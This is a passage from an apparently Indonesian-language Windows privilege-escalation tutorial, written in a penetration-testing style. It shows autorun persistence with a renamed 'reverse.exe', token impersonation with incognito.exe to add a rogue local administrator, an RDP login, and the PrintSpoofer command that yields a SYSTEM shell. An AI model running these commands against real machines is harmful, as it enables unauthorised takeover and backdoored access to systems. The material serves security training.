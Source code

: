 Lalu copy file `reverse.exe` ke direktori `C:\Program Files\Autorun Program` dan rename menjadi `program.exe`

Lalu restart windows

## Token Impersonate

Windows menggunakan Token sebagai Identifier untuk setiap pengguna. Token ini di generate saat login. Ada celah keamanan dimana user biasa bisa melakukan priv esc bilamana user kita saat ini memiliki permission seDebugPrivilege dan SeImpersonatePrivilege

Untuk cek apakah user bisa di impersonate cek di CMD :
$ whoami /priv
pastikan seDebugPrivilege dan SeImpersonatePrivilege enabled. 

Lalu cek user mana saja yang bisa di impersonate. Kita bisa pakai incognito.exe, commandnya :

* incognito.exe list tokens -u //list token available to impersonate
* incognito.exe add_user mrdoel 123456 //add new user
* incognito.exe add_localgroup_user Administrators mrdoel  //add new user to the local administrators group
* net user mrdoel //cek apakah user sudah ditambahkan ke group administrator (Local Group Memberships      *Administrators)

Jika RDP tersedit maka kita bisa login sebagai root dengan command
`rdesktop -u mrdoel -p 123456 target.local`

### Teknik Baru Token Impersonate 
Cara sebelumnya hanya berlaku untuk windows dibawah windows 10. Jika cara diatas tidak bisa maka kita bisa gunakan PrintSpoofer, targetnya Windows 10 and Server 2016/2019. 

Note: pastikan `SeImpersonatePrivilege` berstatus `Enabled`

Cek di https://github.com/itm4n/PrintSpoofer/releases

Perintah untuk menjalankan exploit
```PrintSpoofer64.exe -i -c cmd```
